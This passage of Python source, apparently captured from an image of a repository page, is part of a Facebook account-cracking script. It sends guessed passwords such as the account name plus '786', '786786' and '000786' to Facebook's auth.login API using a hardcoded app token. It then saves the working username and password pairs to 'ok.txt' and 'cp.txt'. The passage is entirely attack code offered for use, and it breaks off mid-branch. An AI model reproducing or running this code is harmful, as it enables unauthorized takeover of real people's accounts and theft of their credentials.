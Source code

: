 		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="000786"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']:
